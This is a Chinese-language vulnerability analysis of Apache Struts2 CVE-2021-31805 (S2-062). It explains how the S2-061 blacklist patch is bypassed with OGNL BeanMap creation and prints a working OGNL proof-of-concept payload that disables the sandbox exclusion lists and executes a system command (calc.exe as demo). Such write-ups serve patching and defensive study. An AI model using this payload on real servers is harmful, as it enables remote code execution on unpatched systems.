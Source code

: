 - [CVE-2021-31805(s2-062) Struts2 远程代码执行](#cve-2021-31805s2-062-struts2-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [s2-061 补丁](#s2-061-补丁)
    - [Bypass](#bypass)
    - [漏洞复现](#漏洞复现)
  - [参考](#参考)
# CVE-2021-31805(s2-062) Struts2 远程代码执行
## 影响版本
Struts 2.0.0 - Struts 2.5.29
## 原理分析
S2-062触发OGNL和之前的都相似,只不过从id标签变成了name标签,而name标签在解析时不会将结果回显,但二次解析原理流程都是差不多的,主要在于绕过之前沙盒rce.  
example:  
```jsp
<%@ page
        language="java"
        contentType="text/html; charset=UTF-8"
        pageEncoding="UTF-8" %>
<%@ taglib prefix="s" uri="/struts-tags" %>
<html>
<head>
    <title>demo</title>
</head>
<s:textfield  label="test1" name="%{name}">hi</s:textfield>
</body>
</html>1
```
### s2-061 补丁
在s2-061的补丁中依旧是添加了黑名单,将`org.apache.tomcat`类也加入了黑名单,导致无法通过`org.apache.tomcat.InstanceManager`来创建BeanMap对象实例.  
![](2022-05-17-14-26-03.png)
### Bypass
问题在于OGNL语法中支持直接创建一个Map类型对象.  
![](2022-05-17-14-39-59.png)
所以直接执行`#@org.apache.commons.collections.BeanMap@{}`即可得到S2-061中的BeanMap了,而不用再使用`org.apache.tomcat.InstanceManager`来获取BeanMap从而绕过了黑名单.  
### 漏洞复现
直接替换BeanMap相关部分即可.  
poc:  
```
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))
```
![](2022-05-17-14-43-03.png)
## 参考
https://mc0wn.blogspot.com/2021/04/exploiting-struts-rce-on-2526.html